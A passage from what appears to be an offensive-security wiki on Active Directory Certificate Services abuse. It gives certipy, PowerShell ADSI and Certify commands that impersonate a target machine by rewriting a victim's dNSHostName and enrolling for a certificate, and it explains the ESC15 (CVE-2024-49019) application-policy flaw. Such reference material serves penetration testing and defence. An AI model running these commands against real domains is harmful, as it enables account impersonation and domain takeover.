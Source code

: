 With [certipy](https://github.com/ly4k/Certipy), it is then possible to enroll on a certificate template using the victim credentials

```bash
certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.


=== Windows

From Windows systems, with PowerShell the `dNSHostName` attribute of the victim must be overwritten to be equal to `$TARGET`.

```powershell
$victim = [ADSI]"LDAP://CN=$VICTIM,CN=Computers,DC=domain,DC=local"
$victim.Properties["dNSHostName"].Value = $TARGET
$victim.CommitChanges()
```

Then, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template from the victim session.

```powershell
Certify.exe request /ca:domain\ca /template:$TEMPLATE /machine
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

:::

### (ESC15 - CVE-2024-49019) Arbitrary application policy

> [!NOTE] NOTE
> This privilege escalation has been marked as [CVE-2024-49019](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019) by Microsoft, and will therefore no longer be exploitable on patched systems.

By default, the X509 standard uses EKUs to indicate the possible uses of a certificate. Under Windows, a field called `Application Policy` is added to certificates, and this does the same thing as EKUs, but with a few more options. If both EKUs and *application policies* are present in a certificate, the latter takes precedence.

It turns out that if a certificate template uses **version 1** of the certificate templates, authorises the SAN specification, and if it is possible to enrol on it, then it is possible to request a certificate by specifying an arbitrary user and requesting an arbitrary *application policy*.

> [!TIP] TIP
> Note, however, that specifying "Client Authentication" in *application policy* will only allow **SChannel authentication and not PKINIT**. On the other hand, by specifying "Certificate Request Agent" (`1.3.6.1.4.1.311.20.2.1`), the certificate can be used as an [ESC3](certificate-templates.md#certificate-agent-eku-esc3).

You can see the ESC15 as an [ESC2](certificate-templates.md#any-purpose-eku-esc2) with more steps.

::: tabs
